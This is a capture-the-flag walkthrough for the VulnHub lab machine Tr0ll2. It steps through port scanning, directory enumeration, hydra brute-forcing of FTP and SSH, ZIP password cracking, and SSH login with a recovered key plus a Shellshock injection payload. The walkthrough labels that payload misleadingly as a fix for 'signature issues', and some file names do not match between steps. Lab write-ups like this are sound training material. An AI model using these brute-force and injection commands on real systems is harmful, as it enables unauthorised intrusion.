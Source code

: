 # Tr0ll2 VulnHub Walkthrough

## Overview

- **Difficulty:** Intermediate
- **Objective:** Gain root access and retrieve the final flag.
- **Tools Used:** nmap, feroxbuster, wget, base64, hydra, ssh, fcrackzip

**Target IP Address:** 192.168.48.166 (replace with your assigned IP).

---

## Step 1: Network Discovery

Perform an initial scan using nmap to identify open ports and services:

```bash
nmap 192.168.48.166 -sV
```

**Output:**

```
Starting Nmap 7.95 ( https://nmap.org )  
Nmap scan report for 192.168.48.166  
Host is up (0.0084s latency).  

PORT     STATE SERVICE VERSION  
21/tcp   open  ftp     vsftpd 2.0.8 or later  
22/tcp   open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)  
80/tcp   open  http    Apache httpd 2.2.22 ((Ubuntu))  

MAC Address: 00:0C:29:4C:BC:34 (VMware)  
Service Info: Host: Tr0ll; OS: Linux
```

---

## Step 2: Web Enumeration

1. **Visit the HTTP service (port 80):**
   - Check for visible clues on the main page.
   - View the `robots.txt` file.

2. **Use feroxbuster for directory enumeration:**

```bash
feroxbuster -u http://192.168.48.166/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -C404
```

**Notable discoveries:**
- `/dont_bother/`
- `cat_the_troll1.jpg`

3. **Analyze the image:**

```bash
strings --all cat_the_troll1.jpg
```

**Clue found:**
"Look Deep within y0ur_self for the answer."

4. **Access the hidden directory and retrieve the encoded file:**

```bash
wget http://192.168.48.166/y0ur_self/answer.txt
```

5. **Decode the file (Base64):**

```bash
base64 -d answer.txt >> pass.txt
```

6. **Extract usernames and passwords:**

```bash
cat usr.txt
```

---

## Step 3: Brute Force Login

### FTP Brute Force

```bash
hydra -L usr.txt -P usr.txt 192.168.48.166 ftp -I
```

**Result:**
- Username: Tr0ll
- Password: Tr0ll

### SSH Brute Force

```bash
hydra -L usr.txt -P usr.txt 192.168.48.166 ssh -I
```

**Result:**
- Username: Tr0ll
- Password: Tr0ll

---

## Step 4: Exploiting

### Access via SSH

```bash
ssh Tr0ll@192.168.48.166
```

**Note:** Upon logging in, the connection is terminated automatically: "LOL auto-kick."

### Access via FTP

1. **Log in to FTP:**

```bash
ftp Tr0ll@192.168.48.166
```

2. **Download the ZIP file:**

```bash
get lmao.zip
```

3. **Crack the ZIP password:**

```bash
fcrackzip -u -D -p '/path/to/pass.txt' lmao.zip
```

**Password:** ItCantReallyBeThisEasyRightLOL

4. **Extract the ZIP file:**

```bash
unzip lmao.zip
```

5. **Inspect extracted contents:**
   - Locate the RSA private key (e.g., `noob`).

---

## Step 5: Privilege Escalation

### SSH Access as Noob

Use the private key to log in as `noob`:

```bash
ssh -i noob noob@192.168.48.166 -o PubkeyAcceptedKeyTypes=ssh-rsa
```

**Troubleshooting:** If login fails due to signature issues, use the following workaround:

```bash
ssh -i noob noob@192.168.48.166 -o PubkeyAcceptedKeyTypes=ssh-rsa '() { :;}; /bin/bash'
```

Once inside, explore the system for privilege escalation opportunities.

---

## Final Notes

**Disclaimer:** This walkthrough is intended solely for educational purposes. Always ensure you have explicit permission to test systems before conducting any form of penetration testing.

Happy Hacking!

